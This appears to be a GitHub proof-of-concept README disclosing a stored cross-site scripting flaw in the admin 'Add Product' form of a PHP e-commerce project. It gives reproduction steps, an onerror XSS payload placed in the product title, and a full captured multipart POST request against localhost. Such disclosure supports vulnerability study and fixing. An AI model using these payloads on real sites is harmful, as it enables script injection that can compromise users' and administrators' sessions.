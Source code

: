 # Full-Ecommece-Website-Add_Product-Stored_XSS-POC
* `Note` => Login to admin
* `Description` => Stored_XSS at `Product Title`
# Step to Reproduct
* `Login to admin` -> `Add Product` -> input payload `<img/src/onerror=prompt(10)>` at `Product Title` -> `Product Title`
# Exploit
![image](https://user-images.githubusercontent.com/79050415/158090373-2c108b5d-999d-4b23-82dc-1971dd1809fb.png)
* Input payload at `Product Title` -> clicked `Product Title` -> The XSS will trigger
![image](https://user-images.githubusercontent.com/79050415/158090577-8977edc4-12da-47bf-a24f-fcac2113928b.png)
![image](https://user-images.githubusercontent.com/79050415/158090598-0b273971-4fe1-4479-b7c1-95597f40fe83.png)
# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/158090702-340cdc74-8abc-4903-99e9-4d7b2d9b6414.png)
![image](https://user-images.githubusercontent.com/79050415/158151529-b0bb3b26-cb0f-43a1-8aab-967cbc71a30b.png)
* When inserting into the database, the input is not filtered out characters
# POC
* Injection Point
```c
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
```
* Request
```c
POST /Full-Ecommece-Website/Codes/public/admin/index.php?add_product HTTP/1.1
Host: localhost:8080
Content-Length: 1354971
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXtBAIsNDayF64Ebh
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/Full-Ecommece-Website/Codes/public/admin/index.php?add_product
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=oam3rcbi14nilh2pp3s21upev5; twk_uuid_5c2396fb7a79fc1bddf24b28={"uuid":"1.AGDzvqvmbboNUBtyBA0XLKxrviwKWw7HVKOjPqv5aIOJHjOnigPvpa5cn7QPGv6D5QwLM7ZIIBSpua1NrhQBpEeAdolcmuMk3JJtap3Nu2WjBL31HFdBqMF9VFcu8Olw","version":3,"domain":null,"ts":1647022863776}; TawkConnectionTime=0
Connection: close

------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_title"

<image/src/onerror=prompt(8)>
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_description"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_price"

10000
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="short_desc"

hacked
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="publish"

Publish
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_category_id"

12
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="product_quantity"

1
------WebKitFormBoundaryXtBAIsNDayF64Ebh
Content-Disposition: form-data; name="file"; filename="car.png"
Content-Type: image/png

PNG
```
`VIDEO POC` https://drive.google.com/file/d/155K4qLwGI8kwctd5FijU9gzonSA2rMFz/view?usp=sharing

